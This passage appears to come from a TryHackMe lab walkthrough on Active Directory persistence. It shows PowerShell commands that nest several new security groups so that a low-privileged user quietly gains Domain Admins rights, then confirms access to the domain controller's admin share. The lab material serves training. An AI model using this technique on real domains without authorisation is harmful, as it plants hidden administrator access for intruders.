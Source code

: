 ```markup
PS C:\Users\Administrator.ZA> New-ADGroup -Path "OU=IT,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 5" -SamAccountName "<username>_nestgroup5" -DisplayName "<username> Nest Group 5" -GroupScope Global -GroupCategory Security
PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "<username>_nestgroup5" -Members "<username>_nestgroup4"
```


With the last group, let's now add that group to the Domain Admins group:

```markup
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup5"
```

Lastly, let's add our low-privileged AD user to the first group we created:

```markup
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "<low privileged username>"
```

Instantly, your low-privileged user should now have privileged access to THMDC. Let's verify this by using our SSH terminal on THMWRK1:

```markup
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>dir \\thmdc.za.tryhackme.loc\c$\ 
 Volume in drive \\thmdc.za.tryhackme.loc\c$ is Windows 
 Volume Serial Number is 1634-22A9

 Directory of \\thmdc.za.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1     
05/01/2022  09:11 AM               169 dns_entries.csv
09/15/2018  08:19 AM    <DIR>          PerfLogs
05/11/2022  10:32 AM    <DIR>          Program Files
03/21/2020  09:28 PM    <DIR>          Program Files (x86)
05/01/2022  09:17 AM             1,725 thm-network-setup-dc.ps1    
04/25/2022  07:13 PM    <DIR>          tmp
05/15/2022  09:16 PM    <DIR>          Tools
04/27/2022  08:22 AM    <DIR>          Users
04/25/2022  07:11 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant] 
04/27/2022  08:12 PM    <DIR>          Windows
               3 File(s)          1,997 bytes
               8 Dir(s)  51,573,755,904 bytes free
```

Let's also verify that even though we created multiple groups, the Domain Admins group only has one new member:

```markup
PS C:\Users\Administrator.ZA> Get-ADGroupMember -Identity "Domain Admins"


distinguishedName : CN=Administrator,CN=Users,DC=za,DC=tryhackme,DC=loc
name              : Administrator
objectClass       : user
objectGUID        : 0bbd7980-b53b-4634-8a28-57e4234655c2
SamAccountName    : Administrator
SID               : S-1-5-21-3885271727-2693558621-2658995185-500

distinguishedName : CN=Am0 Net Group 5,OU=IT,OU=People,DC=za,DC=tryhackme,DC=loc
name              : Am0 Net Group 5
objectClass       : group
objectGUID        : ba545574-6af9-4a3d-a8df-24ab582fc04c
SamAccountName    : am0_nestgroup5
SID               : S-1-5-21-3885271727-2693558621-2658995185-6163
```
